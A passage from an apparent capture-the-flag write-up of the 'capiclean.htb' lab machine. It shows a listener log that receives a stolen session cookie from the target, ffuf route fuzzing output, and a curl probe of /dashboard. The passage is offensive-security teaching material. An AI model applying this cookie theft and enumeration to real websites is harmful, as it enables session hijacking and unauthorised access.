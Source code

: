 
```c
10.10.11.12 - - [31/Jul/2024 00:44:32] code 404, message File not found
10.10.11.12 - - [31/Jul/2024 00:44:32] "GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZqlNgw.V8pGQ30feKi2NhOM1MrEEUvxMcY HTTP/1.1" 404 -
```

Fuzzing to find a route where this cookie would be useful, I can see /dashboard, which without cookie gives a redirect to /:

```c
❯ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -u http://capiclean.htb/FUZZ -mc all -fc 404

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://capiclean.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/raft-large-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 404
________________________________________________

login                   [Status: 200, Size: 2106, Words: 297, Lines: 88, Duration: 44ms]
logout                  [Status: 302, Size: 189, Words: 18, Lines: 6, Duration: 53ms]
about                   [Status: 200, Size: 5267, Words: 1036, Lines: 130, Duration: 67ms]
services                [Status: 200, Size: 8592, Words: 2325, Lines: 193, Duration: 72ms]
.                       [Status: 200, Size: 16697, Words: 4654, Lines: 349, Duration: 85ms]
dashboard               [Status: 302, Size: 189, Words: 18, Lines: 6, Duration: 74ms]
team                    [Status: 200, Size: 8109, Words: 2068, Lines: 183, Duration: 84ms]
quote                   [Status: 200, Size: 2237, Words: 98, Lines: 90, Duration: 78ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 32ms]
choose                  [Status: 200, Size: 6084, Words: 1373, Lines: 154, Duration: 115ms]
sendMessage             [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 151ms]
:: Progress: [119600/119600] :: Job [1/1] :: 203 req/sec :: Duration: [0:06:04] :: Errors: 0 ::
```

```plaintext
❯ curl -i http://capiclean.htb/dashboard
HTTP/1.1 302 FOUND
Date: Tue, 30 Jul 2024 22:58:29 GMT
Server: Werkzeug/2.3.7 Python/3.10.12
Content-Type: text/html; charset=utf-8
Content-Length: 189
Location: /
Vary: Cookie

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.
```
